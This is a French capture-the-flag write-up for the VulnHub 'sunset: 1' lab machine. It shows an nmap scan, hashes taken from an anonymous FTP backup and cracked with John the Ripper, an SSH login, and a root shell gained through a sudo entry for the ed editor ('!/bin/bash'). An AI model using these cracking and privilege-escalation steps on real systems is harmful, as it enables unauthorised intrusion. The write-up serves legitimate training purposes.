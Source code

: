 ```yaml
---
title: "Solution du CTF Sunset: 1 de VulnHub"
tags: [VulnHub, CTF]
---
```


[whitecr0wz](https://whitecr0wz.github.io/) est en auteur prolifique de CTF pourtant, c'est la première fois que je me lance sur l'une de ces créations, ici avec le CTF [sunset: 1](https://vulnhub.com/entry/sunset-1,339/)

Première surprise sur ce CTF, seulement deux ports : FTP et SSH.

```
Nmap scan report for 192.168.56.153
Host is up (0.00021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:7.9p1: 
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|_      PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
```

Le serveur FTP autorise les connexions anonyme et livre aussi un fichier `backup` dans lequel on trouve des hashes :

```
CREDENTIALS:                                                                                                                                                                                                       
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.                                                                                                                  
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/                                                                                                              
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0                                                                                                                     
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/
```

`JtR` n'a pas eu de mal à les casser :

```console
john --wordlist=rockyou.txt hashes.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 2 different salts (2.5x same-salt boost) (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
space            (space)     
cheer14          (sunset)     
sky              (sky)
```

Le password pour le compte `sunset` fonctionne sur le SSH :

```console
sunset@sunset:~$ cat user.txt 
5b5b8e9b01ef27a1cc0a2d5fa87d7190
```

On peut profiter d'une entrée `sudo` pour s'échapper de l'éditeur `ed` avec la commande `!/bin/bash` :

```console
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
sunset@sunset:~$ sudo /usr/bin/ed
!/bin/bash
root@sunset:/home/sunset# id
uid=0(root) gid=0(root) groups=0(root)
root@sunset:/home/sunset# cd /root
root@sunset:~# ls
flag.txt  ftp  server.sh
root@sunset:~# cat flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```

EZ-PZ
